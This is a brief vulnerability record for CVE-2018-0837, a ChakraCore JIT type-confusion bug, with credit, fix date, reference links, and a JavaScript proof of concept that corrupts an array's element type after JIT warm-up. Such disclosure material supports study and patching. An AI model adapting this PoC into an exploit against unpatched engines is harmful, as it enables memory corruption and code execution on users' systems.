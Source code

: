 # CVE-2018-0837

- Fix: Feb 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr) {
    arr[0] = 1.1;
    this[0] = {};
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1];
    for (let i = 0; i < 10000; i++) {
        opt.call({}, arr);
    }

    opt.call(arr, arr);
    print(arr);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0837)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1464)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/043257b7d47afab1240f5dd4cdd10bde38c574c3)